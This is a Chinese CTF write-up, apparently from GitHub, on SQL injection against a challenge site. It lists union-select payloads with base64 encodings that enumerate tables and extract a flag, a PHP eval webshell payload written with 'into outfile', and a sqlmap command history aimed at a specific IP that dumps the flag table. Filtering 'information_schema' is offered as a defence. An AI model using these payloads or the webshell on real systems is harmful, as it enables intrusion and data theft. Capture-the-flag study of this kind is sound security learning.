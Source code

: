 # CTF-3 SQL注入

### 手动注入：

第一行是sql注入语句，第二行是经过base64编码后的数据

```sql
1 and 1=2 union select 1, database()
MSBhbmQgMT0yIHVuaW9uIHNlbGVjdCAxLCBkYXRhYmFzZSgp

1 and 1=2 union select version(), current_user()
MSBhbmQgMT0yIHVuaW9uIHNlbGVjdCB2ZXJzaW9uKCksIGN1cnJlbnRfdXNlcigp

1 and 1=2 union select 1, database()
MSBhbmQgMT0yIHVuaW9uIHNlbGVjdCAxLCBkYXRhYmFzZSgp

1 and 1=2 union select 1, group_concat(table_name) from information_schema.tables where table_schema='websec'
MSBhbmQgMT0yIHVuaW9uIHNlbGVjdCAxLCBncm91cF9jb25jYXQodGFibGVfbmFtZSkgZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEudGFibGVzIHdoZXJlIHRhYmxlX3NjaGVtYT0nd2Vic2VjJw==

1 and 1=2 union select 1, group_concat(column_name) from information_schema.columns where table_name='flag'
MSBhbmQgMT0yIHVuaW9uIHNlbGVjdCAxLCBncm91cF9jb25jYXQoY29sdW1uX25hbWUpIGZyb20gaW5mb3JtYXRpb25fc2NoZW1hLmNvbHVtbnMgd2hlcmUgdGFibGVfbmFtZT0nZmxhZyc=

1 union select 1,value from flag
MSB1bmlvbiBzZWxlY3QgMSx2YWx1ZSBmcm9tIGZsYWc=
```

其中select 1的1用作占位，group_concat是把很多字符串拼接成一个字符串。

##### 问题澄清：

information_schema是不是每个用户都可以访问的，还是只有root可以访问？

这个root用户是真的root用户吗，怎么权限这么少？也即这个root用户只是出题人欺骗我们的，徒有其名？



##### 问题一

尝试如下：

```mysql
create user 'tester'@'%' identified by 'test';
这个时候是tester是初始权限
另一个窗口使用mysql -utester -ptest登入
show databases; 
发现有information_schema，说明这个information_schema是每个用户都有的，是都可以查看的
```

但是查看此库中的表，跟root用户此库中的表大多不一样，进一步查看官网文档：

> INFORMATION_SCHEMA is a database within each MySQL instance, the place that stores information about all the other databases that the MySQL server maintains. The INFORMATION_SCHEMA database contains several read-only tables. They are actually views, not base tables, so there are no files associated with them, and you cannot set triggers on them. Also, there is no database directory with that name.
> Although you can select INFORMATION_SCHEMA as the default database with a USE statement, you can only read the contents of tables, not perform INSERT, UPDATE, or DELETE operations on them.

意思是，这个数据库其实是个视图（view），对每个登入的用户（也即实例），都会有一个information_schema视图存在。mysql实例，据我理解就是用户登入的数目，在本地登入root和tester后，查看进程：

![1542154731706](C:\Users\Jomaker\AppData\Local\Temp\1542154731706.png)

从末尾看出，有两个mysql client进程，在mysqld眼里，这就是两个instance。

另外，information_schema说是视图，但是并没有基表，这跟其他普通视图是不一样的，因为普通视图就是用基表的数据和对基表的操作定义出来的。可能只能说，这个视图是元视图，可以不一般。

对每个实例，都有一个对应于当前用户权限的information_schema，而且显示地操作，只能是查看，而不能I/U/D等。

所以在演示时，我说information_schema只能root用户查看，是错的。

##### 疑问二

接下来尝试这个root用户是管理员root，还是一个叫root但不是管理员的用户。

（为了方便截图和说明，前面是后面命令的结果）

![1542155247126](C:\Users\Jomaker\AppData\Local\Temp\1542155247126.png)

![1542155291565](C:\Users\Jomaker\AppData\Local\Temp\1542155291565.png)

说明一点，root@%是任意主机（%）上的用户root，localhost是只能在本地登录的用户，其实这样就可以给php一个%的，然后限制这个root自身访问websec表（比如只给select权限，想改flag，呵呵....这只是个例子，select注入一般是不能做IDU操作的），但是本地localhost仍然是全权限。

从以上两个图看，结论就很明显了，这个root就是mysql的最高管理员，只是这是个select注入，mysql限制了select里面嵌套IDU子句，导致只能获取数据，无法修改。

另外，看看能不能写webshell：

![1542156188868](C:\Users\Jomaker\AppData\Local\Temp\1542156188868.png)

尝试写入webshell，发现这个mysqld的用户（比如是mysql-user），出题者对它做了限制，我感觉找不到此用户有写入权限的目录。

![1542156333705](C:\Users\Jomaker\AppData\Local\Temp\1542156333705.png)

手动写入的话，payload如下：

 **union select 1,'<?php eval($_POST[cmd]);?>’ into outfile '/usr/share/nginx/html'**

虽然可以用select命令做点事情，但出题人限制了。（不给你捣乱）



##### 结论：

information_schema是每个用户都有的（也可以说是每个登入的实例），都可以查看（也即可以无痛查表名、查列名），这点我说错了。

这个叫'root'的当前用户是dba（这点我说对了），不能IDU只是因为这是个select注入，insert注入你试试。

为了验证root能不能自己限制对某个表的insert：

![1542157245868](C:\Users\Jomaker\AppData\Local\Temp\1542157245868.png)

正常insert，说明root就是出入无阻。



##### 最后：

禁止一般用户访问information_schema的方法：

方法1，nginx配置对get参数，过滤掉包含information_schema字符串的请求。

方法2，后台php对用户提交的内容过滤的时候，把information_schema字符串过滤掉。

### sqlmap：

使用sqlmap的经过如下（具体操作详见视频）：

```shell
 2002  sqlmap -u http://124.16.71.70:40005/?id=MQ%3d%3d --tamper=base64encode.py --dbs
 2003  sqlmap -u http://124.16.71.70:40005/?id=MQ%3d%3d --dbms=mysql  --dbs 
 2004  sqlmap -u http://124.16.71.70:40005/?id=MQ%3d%3d --dbms=mysql --tamper base64encode.py  --dbs 
 2005  sqlmap -u http://124.16.71.70:40005/?id=MQ%3d%3d --tamper base64encode.py --current-db
 2006  sqlmap -u http://124.16.71.70:40005/?id=MQ%3d%3d --dbms=mysql --tamper base64encode.py  --current-db
 2007  sqlmap -u "http://124.16.71.70:40005/?id=MQ%3d%3d" --tamper base64encode.py --current-db
 2008  sqlmap -u "http://124.16.71.70:40005/?id=MQ%3d%3d" --tamper base64encode.py --level
 2009  sqlmap -u "http://124.16.71.70:40005/?id=MQ%3d%3d" --tamper base64encode.py --level=5
 2010  sqlmap -u "http://124.16.71.70:40005/?id=MQ%3d%3d" --tamper base64encode.py --level=5 --current-db --dbs
 2011  sqlmap -u "http://124.16.71.70:40005/?id=MQ%3d%3d" --tamper base64encode.py --level=5 -D websec --tables
 2012  sqlmap -u "http://124.16.71.70:40005/?id=MQ%3d%3d" --tamper base64encode.py --level=5 -D websec -T flag
 2013  sqlmap -u "http://124.16.71.70:40005/?id=MQ%3d%3d" --tamper base64encode.py --level=5 -D websec -T flag --columns
 2014  sqlmap -u "http://124.16.71.70:40005/?id=MQ%3d%3d" --tamper base64encode.py --level=5 -D websec -T flag -C value
 2015  sqlmap -u "http://124.16.71.70:40005/?id=MQ%3d%3d" --tamper base64encode.py --level=5 -D websec -T flag -C value --dump
```

